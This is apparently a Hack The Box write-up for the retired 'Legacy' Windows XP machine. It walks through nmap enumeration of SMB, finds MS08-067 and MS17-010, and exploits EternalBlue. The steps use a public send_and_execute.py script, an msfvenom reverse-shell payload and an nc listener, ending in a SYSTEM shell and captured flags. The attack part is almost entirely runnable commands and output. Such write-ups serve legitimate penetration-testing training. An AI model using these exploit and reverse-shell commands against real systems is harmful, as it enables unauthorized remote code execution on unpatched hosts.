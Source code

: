 ```yaml
---
title: Legacy - Hack The Box
author: "0xPThree"
description: "N/A"
date: 2019-04-14
image: images/legacy_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


# USER
## Enumeration

```bash
[root:/git/htb]# nmap -Pn -n -sCV 10.10.10.4 --open                                                                               (master✱)
  PORT    STATE SERVICE      VERSION
  139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
  445/tcp open  microsoft-ds Windows XP microsoft-ds
  Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

  Host script results:
  |_clock-skew: mean: 5d01h01m15s, deviation: 1h24m50s, median: 5d00h01m15s
  |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:11:0b (VMware)
  | smb-os-discovery:
  |   OS: Windows XP (Windows 2000 LAN Manager)
  |   OS CPE: cpe:/o:microsoft:windows_xp::-
  |   Computer name: legacy
  |   NetBIOS computer name: LEGACY\x00
  |   Workgroup: HTB\x00
  |_  System time: 2021-03-01T12:38:45+02:00
  | smb-security-mode:
  |   account_used: <blank>
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)


[root:/git/htb]# nmap -p139,445 --script vuln 10.10.10.4                                                                          (master✱)
  PORT    STATE SERVICE
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Host script results:
  |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
  | smb-vuln-ms08-067:
  |   VULNERABLE:
  |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
  |     State: LIKELY VULNERABLE
  |     IDs:  CVE:CVE-2008-4250
  |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
  |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
  |           code via a crafted RPC request that triggers the overflow during path canonicalization.
  |
  |     Disclosure date: 2008-10-23
  |     References:
  |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
  |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
  | smb-vuln-ms17-010:
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
  |
  |     Disclosure date: 2017-03-14
  |     References:
  |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

**MS17-010** EternalBlue is the obvious attack path here, lets exploit it.

**a)** Download the script [**`send_and_execute.py`**](https://github.com/helviojunior/MS17-010)

**b)** Create your malicious payload:

    `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4488 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe`

**c)** Execute!
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.14.10 ms17-010.exe                                                       (master✱)
  Traceback (most recent call last):
    File "send_and_execute.py", line 2, in <module>
      from impacket import smb, smbconnection
  ImportError: No module named impacket
```

**d)** If you get the error like above, it's because your python2 version is to new.

: **d1)** uninstall pip3: `sudo apt-get remove python3-pip`

  **d2)** Get pip3 installer: `curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py`

  **d3)** Install pip3: `python3 get-pip.py`

  **d4)** Get pip2 installer: `curl https://bootstrap.pypa.io/2.7/get-pip.py -o get-pip.py`

  **d5)** Install pip2: `python get-pip.py`

  **d6)** Now you can install any pip2 modules: `pip install impacket`

  **d7)** Make sure your python and python-pip are compatible. Python version 2.7.18 and pip 20.3.4 is preffered.


```bash
[root:/git/htb/legacy]# python -m pip -V                                                                                          (master✱)
  pip 20.3.4 from /usr/local/lib/python2.7/dist-packages/pip (python 2.7)

[root:/git/htb/legacy]# python -V                                                                                                 (master✱)
  Python 2.7.18
```

**e)** EXECUTE EXPLOIT AGAIN!
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
  Trying to connect to 10.10.10.4:445
  Traceback (most recent call last):
    File "send_and_execute.py", line 1077, in <module>
      exploit(target, port, pipe_name)
    File "send_and_execute.py", line 794, in exploit
      conn = MYSMB(target, port)
    File "/git/htb/legacy/mysmb.py", line 118, in __init__
      smb.SMB.__init__(self, remote_host, remote_host, timeout=timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/smb.py", line 2434, in __init__
      self._sess = nmb.NetBIOSTCPSession(my_name, remote_name, remote_host, host_type, sess_port, self.__timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 893, in __init__
      timeout=timeout, local_type=local_type, sock=sock)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 752, in __init__
      self._sock = self._setup_connection((remote_host, sess_port), timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 904, in _setup_connection
      raise socket.error("Connection error (%s:%s)" % (peer[0], peer[1]), e)
  socket.error: [Errno Connection error (10.10.10.4:445)] timed out
```

**f)** If above happens, reboot the box and execute a third time.
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
  Trying to connect to 10.10.10.4:445
  Target OS: Windows 5.1
  Using named pipe: browser
  Groom packets
  attempt controlling next transaction on x86
  success controlling one transaction
  modify parameter count to 0xffffffff to be able to write backward
  leak next transaction
  CONNECTION: 0x82208430
  SESSION: 0xe1a57430
  FLINK: 0x7bd48
  InData: 0x7ae28
  MID: 0xa
  TRANS1: 0x78b50
  TRANS2: 0x7ac90
  modify transaction struct for arbitrary read/write
  make this SMB session to be SYSTEM
  current TOKEN addr: 0xe2116d30
  userAndGroupCount: 0x3
  userAndGroupsAddr: 0xe2116dd0
  overwriting token UserAndGroups
  Sending file KCC2VY.exe...
  Opening SVCManager on 10.10.10.4.....
  Creating service vteS.....
  Starting service vteS.....
  The NETBIOS connection with the remote host timed out.
  Removing service vteS.....
  ServiceExec Error on: 10.10.10.4
  nca_s_proto_error
  Done
```
```bash
    [root:/opt/impacket]# nc -lvnp 4488                                                                                                (master)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.4] 1031
      Microsoft Windows XP [Version 5.1.2600]
      (C) Copyright 1985-2001 Microsoft Corp.

      C:\WINDOWS\system32>

      C:\Documents and Settings\john\Desktop>type user.txt
        e69af0e4f443de7e36876fda4ec7644f

      C:\Documents and Settings\Administrator\Desktop>type root.txt
        993442d258b0e0ec917cae9e695d5713
```

# References
- [mysmb.py](https://github.com/worawit/MS17-010/blob/master/mysmb.py)
- [no module named impacket fix](https://webcache.googleusercontent.com/search?q=cache:w_5LbLWkSMwJ:https://stackoverflow.com/questions/66087250/fix-for-kali-impacket-issues-between-python-2-and-3-2020-4+&cd=4&hl=sv&ct=clnk&gl=se)
  